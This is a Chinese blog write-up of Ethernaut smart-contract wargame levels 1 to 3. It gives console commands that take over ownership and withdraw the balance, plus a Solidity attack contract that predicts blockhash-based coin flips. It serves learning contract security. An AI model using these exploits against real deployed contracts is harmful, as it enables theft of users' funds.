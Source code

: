 title: Ethernaut靶场记录
author: John Jue
date: 2023-10-11 13:41:43
tags:
---
# 1.Fallback

本关有两个要求
<li>获得这个合约的所有权
<li>把他的余额减到0
  
先使用 `contract`查看合约的 abi以及函数信息 

![upload successful](/images/pasted-726.png)
然后去审计一下合约代码，找到变更合约owner的入口
```SOL
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```
可以看到如果贡献值超过owner，即可获得合约拥有权，但是
```SOL
constructor() {
  owner = msg.sender;
  contributions[msg.sender] = 1000 * (1 ether);
}
```
合约owner的贡献为1000，很难超过，所以审计如下代码
```SOL
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```
发送以太币：发送者必须在向合约发送以太币的交易中包含一定数量的以太币，即 `msg.value > 0`。
且之前贡献过：发送者的地址必须在合约的贡献映射 `contributions` 中具有非零的贡献金额，即 `contributions[msg.sender] > 0`。
可以推出，我们只需要往合约连续转两次eth即可拿到合约owner。

控制台输入`await contract.contribute({value:1})`

![upload successful](/images/pasted-727.png)
然后调用`await contract.getContribution()`来查看一下贡献

![upload successful](/images/pasted-729.png)
发现贡献为1，满足`receiver()`的限制，使用`await contract.sendTransaction({value:1})`构造转账给合约

![upload successful](/images/pasted-730.png)

查看合约owner，确认是不是player

![upload successful](/images/pasted-731.png)
可以看到已经成功更改，最后调用`await contract.withdraw()`取出所有余额，提交实例。

成功
![upload successful](/images/pasted-732.png)

# 2.Fallout
题目提示`Solidity Remix IDE`可能会有帮助，`Solidity Remix IDE`是一个web端的SOL代码编写工具
关卡要求：
<li>合约的所有权

首先还是用`contract`查看合约的abi以及函数

![upload successful](/images/pasted-733.png)

进行代码审计，发现合约名字为Fallout，但是如下代码中写成了Fal1out 
```SOL
/* constructor */
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```
这段代码导致所有人都可以调用Fal1out()，而不只是合约owner，所以，我们也可以调用该函数。
先使用`await contract.owner()`查看合约拥有者

![upload successful](/images/pasted-734.png)
调用`await contract.Fal1out({value:1})`往里进行转账，获取合约所有权。

![upload successful](/images/pasted-735.png)
确认owner为player，提交通关

# 3.Coin Flip
该合约的通关要求为
<li>掷硬币的游戏，你需要连续的猜对结果。完成这一关，你需要通过你的超能力来连续猜对十次。

合约地址为：0xb3b41329530970733e6c049F0C81488313D22442
先进行代码审计，合约主函数如下：
```SOL
function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```
代码意思为：硬币的正反面是由当前区块前一区块的高度所决定的。如果我们不知道当前区块高度是多少，就难以提前预知硬币的正反面。且同时，合约通过lastHash保证同一区块只能有一次提交。
大概思路为：新建自己的智能合约，提前预测硬币正反面，并向关卡合约发出请求。
编写攻击合约，其中`CoinFlipAttack`就是我们的攻击合约，而`CoinFlip`和`CoinFlipInterface`都是为目标合约提供abi接口而定义的：
```SOL
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'https://github.com/OpenZeppelin/openzeppelin-contracts/blob/6be0b410dcb77bc046cd3c960b4170368c502162/contracts/math/SafeMath.sol';
contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}


contract CheatGuess {
  using SafeMath for uint256;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  address originalAddress = 0xb3b41329530970733e6c049F0C81488313D22442;  //实例合约地址
  CoinFlip public originalContract = CoinFlip(originalAddress);

  function cheat() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    
    originalContract.flip(side);
  }

}
```
需要将`address originalAddress`改为靶场合约地址，在部署页面，选择Injected Web3，连接Metamask钱包。

![upload successful](/images/pasted-736.png)
使用小狐狸授权部署，点击左侧cheat，支付gas

![upload successful](/images/pasted-737.png)
我们可以发下如下图

![upload successful](/images/pasted-738.png)
猜测成功次数增加了，发送十次即可

![upload successful](/images/pasted-739.png)
提交通关
